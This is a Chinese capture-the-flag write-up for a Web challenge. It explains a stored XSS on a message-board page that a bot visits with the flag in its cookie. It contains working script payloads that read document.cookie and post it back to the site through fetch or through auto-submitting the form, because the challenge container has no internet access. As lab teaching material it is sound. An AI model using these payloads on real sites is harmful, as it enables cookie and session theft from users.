

# 题解分享频道

- 作者：13m0n4de
- 参考：-
- 难度：Normal
- 分类：Web
- 镜像：[svuctf-winter-2023/writeup_channel](https://ghcr.io/svuctf/svuctf-winter-2023/writeup_channel:latest)
- 端口：5000

## 题目描述

**请勿分享自己的链接，或点击其他人分享的链接，以免造成安全问题**

> Hint: 得到的 Flag 字符串可能被 URL 编码过，注意解码\\ Hint：题目容器不出网

## 题目解析

灵感来源于 [USTC-Hackergame-2021 花絮中的钓鱼题解](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/behind-the-scenes/README.md#%E5%85%B6%E4%BB%96)，页面也仿制了。

可能同学们第一次遇到 XSS 的题，有点陌生。这类题目为了模拟被攻击者访问网页，会使用脚本来模拟浏览器打开网页，这个脚本可以称为 Bot ，其中大多 Bot 会将 Flag 设置在 Cookie 中。（XSS 盗 Cookie ，经典的用法）

也有可能有的题目是手动触发 Bot 访问页面，看题目如何设置了。

此题在最开头就说明 `每过一段时间就来这里更新一下` 所以可以推测有个 Bot 带着 Flag 每隔一段时间就访问一次这个网页。

这是道非常平常的储存型 XSS ，只不过不出网。

没有任何过滤，投稿 `<script>alert('xss')</script>` 会直接弹窗。


这段 JavaScript 代码一直被留在页面上。

按照平常的 XSS 利用，可以将 Cookie 发送到自己的服务器，或者直接使用 XSS 平台，但在这题行不通，因为容器没法访问公网服务。

想要把内容带出来，可以考虑直接提交到网页上，利用提交投稿功能。

这是使用 `fetch` 发送 POST 请求的方式：

```html
<script>
    var form_data = new FormData();
    form_data.append("message", document.cookie);
    fetch("/", {
    	"method": "POST",
    	"body": form_data,
    });
</script>
```

这是填充表单并提交的方式：

```html
<script>
    document.addEventListener('DOMContentLoaded', function() {
        var form = document.querySelector('form');
        var messageInput = form.elements["message"];
        messageInput.value = document.cookie;
        form.submit();
    });
</script>
```

需要等待页面加载完毕才能找到 Form 表单。

这种方式注意的是，提交之后会刷新页面，刷新了又会提交，会出现一直刷新的状况。

Bot 是不受影响的，它在固定的几秒中后退出，网页上并不会无限出来 Flag 。

我们访问的时候，手动停止页面的刷新就可以了。



Flag 被 URL 编码了。

**注意，如果你已经写入了弹窗代码，可能会导致 Bot 卡住不执行剩下的 JS 代码，需要重新创建实例**

（某位选手前后开了十多个实例）
